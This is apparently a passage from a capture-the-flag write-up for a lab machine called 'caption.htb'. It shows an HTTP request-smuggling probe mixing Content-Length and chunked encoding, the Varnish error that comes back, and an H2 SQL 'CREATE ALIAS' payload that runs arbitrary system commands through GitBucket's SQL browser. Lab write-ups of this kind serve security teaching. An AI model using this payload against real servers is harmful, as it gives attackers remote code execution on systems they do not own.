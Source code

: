 Request:

```http
POST / HTTP/1.1
Host: caption.htb
Content-Length: 1
Transfer-Encoding: chunked

0
```

Response:

```http
HTTP/1.1 503 Backend fetch failed
date: Fri, 20 Sep 2024 18:18:01 GMT
server: Varnish
content-type: text/html; charset=utf-8
retry-after: 5
x-varnish: 3081494
age: 0
via: 1.1 varnish (Varnish/6.6)
x-cache: MISS
content-length: 284

<!DOCTYPE html>
<html>
  <head>
    <title>503 Backend fetch failed</title>
  </head>
  <body>
    <h1>Error 503 Backend fetch failed</h1>
    <p>Backend fetch failed</p>
    <h3>Guru Meditation:</h3>
    <p>XID: 3081495</p>
    <hr>
    <p>Varnish cache server</p>
  </body>
</html>
```

## Remote Code Execution

Using the GitBucket SQL browser, it's possible to create a malicious function to execute code:

```sql
CREATE ALIAS HAX AS $$ String shellexec(String cmd) throws java.io.IOException {
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : "";
}$$;
```
